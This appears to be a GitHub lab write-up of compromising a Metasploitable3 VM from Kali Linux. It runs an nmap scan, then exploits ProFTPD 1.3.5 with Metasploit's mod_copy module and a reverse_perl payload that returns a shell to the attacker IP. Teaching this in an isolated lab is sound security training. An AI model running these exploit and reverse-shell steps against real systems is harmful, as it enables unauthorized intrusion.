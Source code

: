 # Phase 1: Service Compromise
---

## ✅ Task 1.1: Exploiting the Service Using Metasploit

---
## ✅ Step 1: Environment Setup

- **Victim VM**: Metasploitable3
- **Attacker VM**: Kali Linux
- **Network Type**: Host-Only
- **Victim IP**: 192.168.168.129
- **Tool Used**: Metasploit
- **Vulnerable Service To Exploit**: FTP

## ✅ Step 2: Service Enumeration using Nmap

An Nmap scan was performed to identify open services on the victim machine.

### Command:

```bash
nmap -sV 192.168.168.129
```

The scan revealed several open ports, including FTP (ProFTPD 1.3.5) on port 21, which was chosen as the target for this phase.

 
![Nmap Scan](./metasploit_screenshots/nmap_scan.png)

## ✅ Step 3: Identifying the Vulnerable FTP Service

After discovering that port 21 was open and running **ProFTPD 1.3.5**, Metasploit was used to search for known exploits targeting this specific version of the FTP service.

### 🔧 Metasploit Search Command:

```bash
search proftpd type:exploit
```

This returned several results. Among them, the following module was selected as the most suitable for our target:

Module: exploit/unix/ftp/proftpd_modcopy_exec

Rank: Excellent

Description: This exploit leverages the SITE CPFR/CPTO commands provided by the ProFTPD mod_copy module (enabled by default in 1.3.5). It allows remote attackers to copy a malicious PHP file into the web server directory, which can then be executed to obtain a reverse shell.

![Search result](./metasploit_screenshots/search_proftp.png)

## ✅ Step 4: Exploitation via Metasploit

The following commands were used to exploit the FTP service:

## 🔧 Exploit Configuration

1. **Set the Exploit Module:**

    ```bash
    use exploit/unix/ftp/proftpd_modcopy_exec
    ```

2. **Set the Target Host:**

    ```bash
    set RHOSTS 192.168.168.129
    ```

3. **Set the FTP Port (default 21):**

    ```bash
    set RPORT 21
    ```

4. **Set the Site Path (Web Root):**

    ```bash
    set SITEPATH /var/www/html
    ```

5. **Set the Payload:**

    ```bash
    set payload cmd/unix/reverse_perl
    ```

6. **Set the Attacker's IP (LHOST):**

    ```bash
    set LHOST 192.168.168.128
    ```

7. **Launch the Exploit:**

    ```bash
    exploit
    ```


Result:
* The exploit successfully copied a malicious PHP payload into the web server's root directory.
* Triggering the payload resulted in a reverse shell being established on the attacker's machine.

### Post-Exploitation Verification

Once the reverse shell was successfully established, the following commands were executed to confirm the current access level and working directory:

1. **Check the current user:**
    ```bash
    whoami
    ```

2. **Check the present working directory:**
    ```bash
    pwd
    ```

**Result:**
- **User:** `www-data`
- **Directory:** `/var/www/html`

![reverse shell](./metasploit_screenshots/reverse_shell.png)
